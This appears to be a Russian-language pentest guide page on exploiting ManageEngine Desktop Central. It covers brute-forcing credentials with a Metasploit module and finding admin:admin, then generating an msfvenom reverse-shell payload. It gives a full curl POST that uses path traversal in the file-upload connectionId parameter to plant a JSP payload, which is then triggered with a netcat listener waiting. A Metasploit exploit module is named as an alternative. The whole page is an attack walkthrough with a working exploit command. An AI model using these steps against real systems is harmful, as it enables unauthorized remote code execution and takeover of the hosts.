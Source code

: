 # Desktop Manage Engine Exploitation

Manage Engine - это комплексный пакет программ для управления ИТ, который предлагает решения для управления сетями, серверами, настольными компьютерами и приложениями.

<figure><img src="../.gitbook/assets/man_engine_web_page.png" alt=""><figcaption></figcaption></figure>

Manage Engine BruteForce

Для подбора учетных данных используйте модуль `auxiliary/scanner/http/manageengine_desktop_central_login` , где в качестве аргументов в целях ускорения подбора вы можете взять следующие словари:

юзернеймы (ссылка)

пароли (ссылка)

После подбора вы найдете 1 валидную комбинацию admin:admin и получите доступ к панели администратора

Manage Engine Reverse Shell

Вы можете получить обратную оболочку уязвимого хоста, сделав следующее:

Сгенерируйте полезную нагрузку используя утилиту msfvenom и укажите ip-адрес и порт машины, на которую хотите получить shell

<figure><img src="../.gitbook/assets/msfvenom_shell.png" alt=""><figcaption></figcaption></figure>

Далее, отправьте соответствующий POST-запрос за удаленную машину, в ходе которого будет создан .jsp файл с полезной нагрузкой в качестве содержимого

```
curl -v -X POST "http://172.20.10.3:8020/fileupload?connectionId=AAAAAAA\..\..\..\..\..\jspf\test.jsp&resourceId=B&action=rds_file_upload&computerName=sinn3r.php&customerId=47474747" --data @shell.txt --header "Content-Type:application/octet-stream" && http://172.20.10.3:8020/jspf/test.jsp
```

> Замените ip-адрес на адрес вашей машины

Затем обратитесь к созданному файлу с помощью утилиты curl, заранее подключив слушатель на выбранный вами порт

<figure><img src="../.gitbook/assets/curl_jsp_file.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/nc_listener.png" alt=""><figcaption></figcaption></figure>

#### Metasploit Shell

Помимо метода “вручную” вы можете использовать Metasploit модуль `exploit/windows/http/manageengine_connectionid_write`

<figure><img src="../.gitbook/assets/metasploit_manageengine.png" alt=""><figcaption></figcaption></figure>
